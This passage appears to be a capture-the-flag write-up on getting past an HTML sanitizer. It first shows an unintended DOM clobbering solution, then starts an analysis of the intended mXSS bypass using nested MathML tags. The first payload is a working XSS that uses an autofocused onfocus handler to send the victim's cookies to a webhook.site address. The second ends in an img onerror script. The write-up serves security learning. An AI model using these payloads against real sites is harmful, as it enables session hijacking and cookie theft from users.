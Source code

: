 # Unintended - DOM Clobbering

```html
<form id=x tabindex=0 onfocus="window.location='//webhook.site/f0a8091f-b573-4ccf-a32d-6543a61e0423?cookie='+btoa(document.cookie)" autofocus>
  <input id=attributes>
</form>
```

By overwriting `n.attributes`, we achieve `n.attributes.length === undefined`, which prevents the following code from executing and thus doesn't clean the form's attributes:

```js
while (n.attributes.length > 0) {
    n.removeAttribute(n.attributes[0].name);
}
```

# Intended - mXSS

> If your time is valuable, stop reading now. Below is my attempt to understand how mXSS works in the context of this challenge. It’s long and, as it turns out, kind of useless.

I initially decided to take a different approach and didn’t even consider this solution, although the challenge name hinted at it.

I only saw the mXSS solution later in a write-up and wanted to analyze it.

The challenge author references [this write-up](https://research.securitum.com/mutation-xss-via-mathml-mutation-dompurify-2-0-17-bypass/) that explains this bypass. The author points out that DOM uses namespace mechanisms and that their handling, as per the spec, is quite complex.

---

We will pass the payload through our sanitizer to understand how it works.

After each code fragment, you’ll see how the browser would render the DOM. Note that during rendering, the browser normalizes the DOM and may omit or reformat tags. I’ll try to clarify these cases.

Step one: initial parsing of the root DOM.

```html
<form>
   <math>
      <mtext>
</form>
<form>
<mglyph>
<style>
</math>
<img src onerror=alert(1)>
</style>
</mglyph>
</form>
</mtext>
</math>
```
